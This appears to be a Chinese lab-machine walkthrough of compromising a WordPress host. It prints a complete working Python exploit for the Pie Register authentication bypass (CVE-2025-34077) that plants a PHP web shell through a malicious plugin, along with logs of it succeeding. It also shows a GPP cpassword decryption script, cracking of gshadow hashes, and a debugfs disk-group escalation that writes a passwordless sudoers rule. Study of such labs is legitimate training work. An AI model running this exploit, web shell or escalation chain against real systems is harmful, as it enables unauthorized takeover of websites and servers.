






# 信息收集

```
nmap -p-  192.168.100.15
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-19 03:57 EDT
Nmap scan report for 192.168.100.15
Host is up (0.0016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:69:7C:5F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
```

# 80端口

发现跳转域名



修改域名后一眼就是wordpress

# whatweb

whatweb http://group.dsz/

```
http://group.dsz/ [200 OK] Apache[2.4.66], Country[RESERVED][ZZ], HTML5, HTTPServer[Unix][Apache/2.4.66 (Unix)], IP[192.168.100.15], JQuery[3.7.1], MetaGenerator[WordPress 6.9.1], PHP[8.2.30], Script[application/json,importmap,module], Title[Group.dsz], UncommonHeaders[link], WordPress[6.9.1], X-Powered-By[PHP/8.2.30]
```

# wpscan

```
wpscan --url http://group.dsz/ --enumerate u,vp,vt --random-user-agent
```

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                           
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://group.dsz/ [192.168.100.15]
[+] Started: Sun Apr 19 04:04:27 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.66 (Unix)
 |  - X-Powered-By: PHP/8.2.30
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://group.dsz/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://group.dsz/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://group.dsz/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.1 identified (Insecure, released on 2026-02-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://group.dsz/?feed=rss2, <generator>https://wordpress.org/?v=6.9.1</generator>
 |  - http://group.dsz/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.9.1</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://group.dsz/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.4 (up to date)
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://group.dsz/wp-content/themes/twentytwentyfive/readme.txt
 | Style URL: http://group.dsz/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://group.dsz/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.4'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:00 <============================================================================================================================================================> (652 / 652) 100.00% Time: 00:00:00
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] ll104567
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Apr 19 04:04:35 2026
[+] Requests Done: 722
[+] Cached Requests: 8
[+] Data Sent: 201.188 KB
[+] Data Received: 23.713 MB
[+] Memory used: 335.234 MB
[+] Elapsed time: 00:00:08
```

发现 用户ll104567

# 爆破无果



# 整理思路

回头看发现该站点运行的是 WordPress 6.9.1。通过检查加载的 CSS 文件，确认了 Pie Register 插件的存在：



搜索 "Pie Register 3.7.1.3 exploit"，我们发现了 CVE-2025-34077，这是一个可导致 RCE 的认证绕过漏洞。

CVE-2025-34077

```
#!/usr/bin/env python3
import requests
import zipfile
import io
import re
import argparse
import sys
import json
from urllib.parse import urljoin

class PieRegisterExploit:
    def __init__(self, target_url, user_id=1):
        if not target_url.startswith(('http://', 'https://')):
            target_url = 'http://' + target_url
        if not target_url.endswith('/'):
            target_url += '/'

        self.target_url = target_url
        self.user_id = user_id
        self.session = requests.Session()
        self.headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
        }

    def bypass_auth(self):
        """
        Exploits CVE-2025-34077 to bypass authentication and retrieve admin cookies.
        Returns the cookies if successful, None otherwise.
        """
        print(f"[*] Attempting authentication bypass for user ID {self.user_id} on {self.target_url}")

        # 'log' and 'pwd' are required to bypass the empty() check in pie-register.php
        data = {
            "social_site": "true",
            "user_id_social_site": str(self.user_id),
            "log": "dummy",
            "pwd": "dummy"
        }

        try:
            response = self.session.post(self.target_url, data=data, headers=self.headers, timeout=15)

            # Check if wordpress_logged_in cookie was set
            logged_in_cookie = False
            for cookie in self.session.cookies:
                if 'wordpress_logged_in_' in cookie.name:
                    logged_in_cookie = True
                    break

            if logged_in_cookie:
                print("[+] Authentication bypass successful!")
                print(f"[+] Retrieved Cookies: ")
                for cookie in self.session.cookies:
                    print(f"    - {cookie.name} = {cookie.value[:30]}...")
                return self.session.cookies.get_dict()
            else:
                print("[-] Authentication bypass failed. No valid login cookies received.")
                return None

        except requests.exceptions.RequestException as e:
            print(f"[-] Request failed: {e}")
            return None

    def create_plugin_zip(self, plugin_name="wpshell",
                          shell_code="<?php if(isset($_GET['cmd'])) echo shell_exec($_GET['cmd']); ?>"):
        """
        Creates a malicious WordPress plugin in memory.
        """
        buf = io.BytesIO()
        with zipfile.ZipFile(buf, 'w') as z:
            z.writestr(f"{plugin_name}/{plugin_name}.php", f"<?php /* Plugin Name: {plugin_name} */ ?>")
            z.writestr(f"{plugin_name}/shell.php", shell_code)
        buf.seek(0)
        return buf

    def upload_plugin(self, plugin_name="wpshell"):
        """
        Uploads a malicious plugin using the authenticated session.
        """
        print("[*] Preparing to upload malicious plugin...")

        # 1. Fetch plugin-install page to get _wpnonce
        install_url = urljoin(self.target_url, "wp-admin/plugin-install.php")
        try:
            r_install = self.session.get(install_url, headers=self.headers, timeout=15)
            match = re.search(r'name="_wpnonce" value="([^"]+)"', r_install.text)

            if not match:
                print("[-] Could not find _wpnonce! Are you sure you are authenticated as an admin?")
                return False

            nonce = match.group(1)
            print(f"[+] Successfully extracted _wpnonce: {nonce}")

        except requests.exceptions.RequestException as e:
            print(f"[-] Failed to fetch plugin install page: {e}")
            return False

        # 2. Upload the plugin
        upload_url = urljoin(self.target_url, "wp-admin/update.php?action=upload-plugin")
        upload_data = {
            "_wpnonce": nonce,
            "_wp_http_referer": urljoin(self.target_url, "wp-admin/plugin-install.php?tab=upload")
        }

        zip_filename = f"{plugin_name}.zip"
        files = {
            "pluginzip": (zip_filename, self.create_plugin_zip(plugin_name), "application/zip")
        }

        print(f"[*] Uploading {zip_filename}...")
        try:
            upload_response = self.session.post(
                upload_url,
                data=upload_data,
                files=files,
                headers=self.headers,
                timeout=20
            )

            if "Plugin installed successfully" in upload_response.text or "Destination folder already exists" in upload_response.text:
                shell_url = urljoin(self.target_url, f"wp-content/plugins/{plugin_name}/shell.php")
                print(f"[+] Plugin upload successful!")
                print(f"[+] Shell URL: {shell_url}")
                return shell_url
            else:
                print("[-] Plugin upload failed.")
                return False

        except requests.exceptions.RequestException as e:
            print(f"[-] Upload request failed: {e}")
            return False

    def test_shell(self, shell_url):
        """
        Tests the uploaded shell by executing the 'id' command.
        """
        print("[*] Testing shell execution...")
        try:
            test_url = f"{shell_url}?cmd=id"
            r = requests.get(test_url, headers=self.headers, timeout=10)
            if r.status_code == 200 and r.text.strip():
                print(f"[+] Shell is active! Output: {r.text.strip()}")
                print(f"\n[!] Usage: curl \"{shell_url}?cmd=whoami\"")
                return True
            else:
                print("[-] Shell uploaded but execution failed or returned no output.")
                return False
        except requests.exceptions.RequestException as e:
            print(f"[-] Failed to connect to shell: {e}")
            return False

def main():
    parser = argparse.ArgumentParser(description="CVE-2025-34077 - Pie Register Auth Bypass & RCE")
    parser.add_argument("-u", "--url", required=True, help="Target URL (e.g., http://example.com)")
    parser.add_argument("-i", "--userid", default=1, type=int, help="User ID to hijack (default: 1 for admin)")
    parser.add_argument("--auth-only", action="store_true",
                        help="Only perform authentication bypass and output cookies")
    parser.add_argument("--upload", action="store_true", help="Upload malicious plugin after authentication")
    parser.add_argument("-p", "--plugin-name", default="evilplugin",
                        help="Name of the malicious plugin directory to create")

    args = parser.parse_args()

    # If neither flag is provided, default to doing both
    if not args.auth_only and not args.upload:
        args.upload = True

    exploit = PieRegisterExploit(args.url, args.userid)

    # Step 1: Auth Bypass
    cookies = exploit.bypass_auth()

    if not cookies:
        sys.exit(1)

    if args.auth_only:
        print("\n[*] Authentication only mode requested. Stopping here.")
        print("[*] You can use these cookies in your browser to access the WordPress dashboard.")

        # Output cookies in JSON format for easy loading into tools
        print("\n[+] JSON Cookies:")
        print(json.dumps(cookies, indent=4))
        sys.exit(0)

    # Step 2: Upload Plugin (if requested)
    if args.upload:
        print("\n[*] Proceeding to plugin upload phase...")
        shell_url = exploit.upload_plugin(args.plugin_name)

        if shell_url:
            exploit.test_shell(shell_url)

if __name__ == "__main__":
    main()
```

```
PS D:\内网渗透\poc\Pie Register 3.7.1.3 exploit> python.exe .\CVE-2025-34077.py -u http://group.dsz/ --auth-only
[*] Attempting authentication bypass for user ID 1 on http://group.dsz/
[+] Authentication bypass successful!
[+] Retrieved Cookies:
    - wordpress_logged_in_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762797%7CPk04PD...
    - wordpress_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762797%7CPk04PD...
    - wordpress_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762797%7CPk04PD...

[*] Authentication only mode requested. Stopping here.
[*] You can use these cookies in your browser to access the WordPress dashboard.

[+] JSON Cookies:
{
    "wordpress_logged_in_a49f562bd052e03fd64651c58e60bd2e": "ll104567%7C1776762797%7CPk04PDvR1H5hKKrZo4SDevomuIPOqwA3cYQJggHQaih%7Cfc405cd207f8e5dcfbe72bb124fe6e5273adf50bf865856ad3e69ad766213bf5",
    "wordpress_a49f562bd052e03fd64651c58e60bd2e": "ll104567%7C1776762797%7CPk04PDvR1H5hKKrZo4SDevomuIPOqwA3cYQJggHQaih%7Cbd68b23c1aeec5f0f7de674d852c56749c470152f5bef307731173f3f8d89b0a"
}
```

```
PS D:\内网渗透\poc\Pie Register 3.7.1.3 exploit> python cve-2025-34077.py -u http://group.dsz/
[*] Attempting authentication bypass for user ID 1 on http://group.dsz/
[+] Authentication bypass successful!
[+] Retrieved Cookies:
    - wordpress_logged_in_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762933%7Cgsbbod...
    - wordpress_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762933%7Cgsbbod...
    - wordpress_a49f562bd052e03fd64651c58e60bd2e = ll104567%7C1776762933%7Cgsbbod...

[*] Proceeding to plugin upload phase...
[*] Preparing to upload malicious plugin...
[+] Successfully extracted _wpnonce: 857bb67aee
[*] Uploading evilplugin.zip...
[+] Plugin upload successful!
[+] Shell URL: http://group.dsz/wp-content/plugins/evilplugin/shell.php
[*] Testing shell execution...
[+] Shell is active! Output: uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)

[!] Usage: curl "http://group.dsz/wp-content/plugins/evilplugin/shell.php?cmd=whoami"
PS D:\内网渗透\poc\Pie Register 3.7.1.3 exploit> 
```

# 反弹shell



# 发现Groups.xml

发现敏感文件： Groups.xml 我在靶机的 /opt/ 目录下发现了一个属于 vick 的组策略首选项（Group Policy Preferences, GPP）文件 Groups.xml

```
<Groups xmlns:userid="http://www.microsoft.com/GroupPolicy/Settings/Users">
  <User clsid="{15171732-B1F3-4354-8D71-B07E2368305A}" name="LocalAdmin" uid="{F9706C86-6460-4447-9C9D-E0D5B6673891}">
    <Properties action="U" userName="admin" cpassword="wh/dhDkLLn3qw0d7wqGNX4EripI2ZeShL3A5V9g9A8A=" />
  </User>
</Groups>
```

4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b

加密和解密的 AES 静态密钥(私钥)

# 解密

```
import sys
import base64
from Cryptodome.Cipher import AES

def decrypt_gpp_cpassword(cpassword):
    # The key is hardcoded and publicly known for Microsoft Group Policy Preferences
    # 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    key = bytes.fromhex('4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b')
  
    # Pad the base64 string if necessary
    cpassword += "=" * ((4 - len(cpassword) % 4) % 4)
  
    decoded = base64.b64decode(cpassword)
  
    # IV is 16 null bytes
    iv = b'\x00' * 16
  
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(decoded)
  
    # Remove padding (PKCS7) and decode as utf-16-le (Windows standard)
    pad_len = decrypted[-1]
    return decrypted[:-pad_len].decode('utf-16-le')

if __name__ == "__main__":
    cpass = "wh/dhDkLLn3qw0d7wqGNX4EripI2ZeShL3A5V9g9A8A="
    print(f"Decrypted: {decrypt_gpp_cpassword(cpass)}")
```

Decrypted: 1045670921



linpeas 扫一圈，发现能读 /etc/gshadow ，给了一个 root 组和一个 disk 组的哈希

```
cat > hash << EOF
disk:peDykKCISQ5zM::root
sudo:6RXUH2N1MJObo::
EOF
john hash
```

爆出来 disk 组的哈希 disk:19882006

# disk 组提权

```
USER_NAME="vick"
RULE_FILE="give_${USER_NAME}_sudo"
RULE_PATH="/tmp/${RULE_FILE}"
TARGET_SUDOERS="/etc/sudoers.d/${RULE_FILE}"
BLOCK_DEV="/dev/sda3"
echo "${USER_NAME} ALL=(ALL) NOPASSWD: ALL" > "${RULE_PATH}"
/usr/sbin/debugfs -w "${BLOCK_DEV}" <<EOF
write ${RULE_PATH} ${TARGET_SUDOERS}
sif ${TARGET_SUDOERS} i_mode 0100440
sif ${TARGET_SUDOERS} i_uid 0
sif ${TARGET_SUDOERS} i_gid 0
q
EOF
```


